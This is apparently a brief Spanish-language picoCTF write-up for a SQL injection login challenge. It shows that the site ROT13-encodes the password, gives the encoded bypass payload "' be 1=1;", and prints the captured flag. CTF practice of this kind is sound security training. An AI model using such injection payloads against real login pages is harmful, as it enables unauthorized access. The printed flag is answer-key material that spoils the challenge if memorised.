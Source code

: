 ## Descripcion 

Hay un sitio web seguro en https://jupiter.challenges.picoctf.org/problem/29132/ (enlace) o http://jupiter.challenges.picoctf.org:29132. ¡Intenta ver si puedes iniciar sesión como administrador!
## Solucion

password: hola
SQL query: SELECT * FROM admin where password = 'ubyn'
Login failed.
vemos que nos lo rota 13

' be 1=1;
Logged in!
Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}

## Notas adicionales
